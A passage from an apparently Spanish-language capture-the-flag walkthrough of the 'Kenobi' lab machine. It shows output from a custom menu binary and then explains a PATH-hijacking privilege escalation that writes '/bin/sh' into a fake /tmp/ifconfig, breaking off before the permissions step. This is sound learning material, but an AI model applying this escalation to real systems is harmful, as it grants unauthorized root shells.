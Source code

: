 ```bash	
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html

kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
4.8.0-58-generic
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
eth0      Link encap:Ethernet  HWaddr 02:39:ce:1c:79:b5
          inet addr:10.10.155.179  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::39:ceff:fe1c:79b5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:3509 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3329 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:250545 (250.5 KB)  TX bytes:558847 (558.8 KB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:212 errors:0 dropped:0 overruns:0 frame:0
          TX packets:212 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:15882 (15.8 KB)  TX bytes:15882 (15.8 KB)
```

Aquí observamos nos permite realizar diferentes consultas sobre el sistema, entre las que encontramos un ifconfig y una consulta HTTP.

Bien pues como sabemos que está ejecutando un comando del sistema como es ifconfig podemos intentar engañar al sistema haciendo que busque este binario en un directorio que nosotros controlemos como es /tmp.

Esto solo funcionará si el binario no ejecuta el binario desde su ruta absoluta y toma la relativa.

Para empezar nos dirigimos a /tmp y creamos el archivo `ifconfig` con el siguiente contenido:

```bash
echo /bin/sh > /tmp/ifconfig
```

Una vez creado le damos los permisos necesarios:
